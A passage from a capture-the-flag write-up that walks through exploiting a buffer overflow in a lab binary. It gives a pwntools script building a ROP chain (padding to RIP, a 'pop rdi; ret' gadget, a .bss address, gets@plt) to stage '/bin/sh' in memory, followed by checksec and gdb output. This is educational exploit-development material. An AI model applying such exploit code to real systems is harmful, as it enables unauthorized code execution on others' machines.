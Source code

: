 ```py
from pwn import *

elf = ELF("chall")
p = process("./chall")

payload = b"A"*40 # Offset to RIP
payload += p64(0x0400693) # `pop rdi; ret`
payload += p64(0x601150) # the `.bss` address`
payload += p64(elf.plt['gets']) # PLT address of `gets`
p.sendlineafter(b"warrior\n", "Robin")
pause() # This will allow the process to pause and then we debug it in `gdb`
p.sendlineafter(b"me?\n", payload) 
p.interactive()
```

> Payload: The `pop rdi; ret` will pop the `rdi` register and we gave the `.bss` address right after it, after that we added the PLT address of `gets`, that means we are just doing `gets(write_addr)`.

Let's run this script, after that we will attach it to `gdb` and check if the `/bin/sh` has been stored at that `.bss` address or not:-

```r
 ✘ d4mianwayne@oracle : /tmp/ctf/pwn1 $ python3 xpl.py
[*] '/tmp/ctf/pwn1/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './chall': pid 23064
[*] Paused (press any to continue)
```

Let's `attach` this process to `gdb`:-

```r
gef➤  attach 23064
Attaching to program: /tmp/ctf/pwn1/chall, process 23064
Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/libc-2.27.so...done.


-- snip -- 

[#3] 0x7fb09f4e21fd → _IO_gets(buf=0x7ffdd9adead0 "")
[#4] 0x4005d2 → vulnerable()
[#5] 0x400623 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────
0x00007fb09f572081 in __GI___libc_read (fd=0x0, buf=0xca4670, nbytes=0x1000) at ../sysdeps/unix/sysv/linux/read.c:27
27	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
```
